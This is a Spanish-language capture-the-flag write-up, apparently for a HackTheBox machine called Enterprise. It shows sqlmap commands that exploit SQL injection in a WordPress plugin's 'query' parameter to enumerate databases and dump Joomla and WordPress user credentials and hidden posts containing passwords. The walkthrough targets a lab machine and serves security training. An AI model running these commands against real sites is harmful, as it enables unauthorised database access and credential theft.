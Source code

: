 ## SQLI

Como podemos ver tenemos un plugin lcars que espera un parametro para hacer una query
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217161424.png)

### Sqlmap

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' --dbs
````

El parametrol QUERY es vulnerable a SQLI
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217162437.png)
Listar tablas joomla

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb --tables
````

Listar columnas

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users --columns
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217162825.png)
Listar datos de usuario y contraseña

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users -C username,password --dump
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217162939.png)
Wordpress db

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_users -C user_login,user_pass --dump
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217163317.png)Ver posts creados ocultos

````
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_posts -C post_content --dump
````

Entre los posts encontramos algunas contraseñas
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250217163936.png)

### Auth

